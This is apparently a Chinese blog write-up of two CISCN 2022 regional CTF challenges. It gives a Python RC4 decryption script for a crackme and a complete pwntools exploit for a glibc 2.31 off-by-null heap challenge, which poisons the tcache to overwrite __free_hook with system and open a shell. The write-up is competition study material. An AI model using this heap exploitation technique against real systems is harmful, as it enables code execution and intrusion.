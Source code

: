 ```yaml
---
title : "ciscn2022 华中赛区复赛部分wp"
layout: post
date: 2022-6-25
author: wsxk
comments: true
tags : [ctf_wp]
---
```


- [crackme2<br>](#crackme2)
- [mediumduck<br>](#mediumduck)
- [感想<br>](#感想)

## crackme2<br>
简单的rc4加密<br>
```python
key = list(b"happygame")
key_len = len(key)
cypherBytes = []
keyBytes = []
flag = []
encrypt=[0xCD,0x52,0x74,0x7A,0x1E,0x8,0x8,0xE0,0x57,0x3B,0x18,0x99,0xAF,0x3D,0x1D,0x94,0x15,0x25,0x67,0x5B,0x64,0x53,0x1F,0x3B,0xDC,0xA2,0x46,0x36,0xD3,0xFD,0xBE,0x33]
for i in range(256):
    cypherBytes.append(i)
    keyBytes.append(key[i%key_len])

jump = 0
for i in range(256):
    jump = cypherBytes[i] + jump + keyBytes[i] & 0xFF
    tmp = cypherBytes[i]
    cypherBytes[i] = cypherBytes[jump]
    cypherBytes[jump] = tmp
print(cypherBytes,keyBytes)

i=0
v3_2 =0
for x in range(32):
    i = i+1&0xff
    tmp = cypherBytes[i]
    v3_2 = v3_2 + tmp + 0x88 & 0xFF
    t = (cypherBytes[v3_2] + tmp & 0xFF)
    cypherBytes[i] = cypherBytes[v3_2]
    cypherBytes[v3_2] = tmp
    flag.append(encrypt[x]^cypherBytes[t])

print(bytes(flag))
```

## mediumduck<br>
glibc2.31的off by null题型(个人感觉这次复赛的题目全tm是缝合怪？)<br>
先泄露heap基址和libc基址 ，然后overlap伪造一个堆并释放，使我们有能力控制tcache链表，将tcache链表设置成free_hook的地址，2.31并没有对此做check，但是要注意一点的是要额外free一个chunk，使得tcache记载的chunk为2，否则修改链表没有意义。<br>
```python
from pwn import *
io=remote("10.75.1.25",58011)
#io= process("./pwn",env={"LD_PRELOAD":"./libc.so.6"})
#io= process("./pwn")
#libc = ELF("./libc.so.6")

libc = ELF("libc.so.6")
def add():
    io.sendlineafter("Choice: ",str(1))

def delete(index):
    io.sendlineafter("Choice: ",str(2))
    io.sendlineafter("Idx: ",str(index))

def show(index):
    io.sendlineafter("Choice: ",str(3))
    io.sendlineafter("Idx: ",str(index))

def edit(index,size,content):
    io.sendlineafter("Choice: ",str(4))
    io.sendlineafter("Idx: ",str(index))
    io.sendlineafter("Size: ",str(size))
    io.sendafter("Content: ",content)

for i in range(15):
    add()
for i in range(7): #put into tcache
    delete(i)
add()
show(0)
io.recvline()
heap_base = u64((io.recv(6)).ljust(8,b"\x00"))-0x7a0
log.success("heap_addr:"+hex(heap_base))
# pause()
delete(0)
delete(8)
delete(9)
delete(7)

for i in range(10):
    add()
for i in range(7):
    delete(i)
show(8)
io.recvline()
libc_base = u64((io.recv(6)).ljust(8,b"\x00"))-0x1ecb80-0x60
log.success("libc:"+hex(libc_base))
libc.address= libc_base

edit(7,0x20,p64(0)+p64(0x1f1)+p64(heap_base+0x9a0)+p64(heap_base+0x9a0))
edit(8,0xf8,b"a"*0xf0+p64(0x1f0))
delete(9)

for i in range(7):
    add()
add()#put 9 into tcache
delete(0)
delete(9)
edit(7,0x20,p64(0)+p64(0x100)+p64(libc.sym["__free_hook"])+p64(heap_base+0x10))
add()#0
add()#9 free_hook
edit(9,8,p64(libc.sym["system"]))
edit(0,8,b"/bin/sh\x00")
delete(0)
io.interactive()
```

## 感想<br>
半年前来打比赛比现在做得多（😂，这题目质量，真的是不好评价，pwn题只有heap，其他啥都没有）
